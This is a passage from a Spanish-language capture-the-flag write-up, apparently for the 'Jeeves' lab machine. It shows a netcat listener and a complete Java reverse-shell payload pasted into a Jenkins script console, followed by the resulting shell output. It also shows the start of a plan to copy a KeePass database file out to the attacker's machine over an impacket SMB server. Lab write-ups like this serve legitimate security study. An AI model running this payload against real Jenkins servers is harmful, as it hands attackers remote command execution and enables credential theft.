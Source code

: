 ![](/assets/img/Jeeves/image_4.png)

Lo siguiente es ponernos en `escucha` con `netcat` por el `puerto 4444`

```
# nc -nlvp 4444
```

Pegamos este `payload` y le damos a `run`

```
String host="10.10.16.16";
int port=4444;
String cmd="cmd";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Nos debería llegar esta `consola` a nuestro equipo

```
# nc -nlvp 4444 
listening on [any] 4444 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.194.239] 49677
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke
```

## Privilege escalation (First Method)

Hay `dos formas` para `escalar privilegios`, la primera es con un archivo de base de datos `.kdbx` de `Keepass`. Lo que vamos a hacer es `transferirnos` este `archivo` a nuestra `máquina`, para ello nos montamos un servidor `smb` en nuestro equipo y `copiamos` el archivo

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```
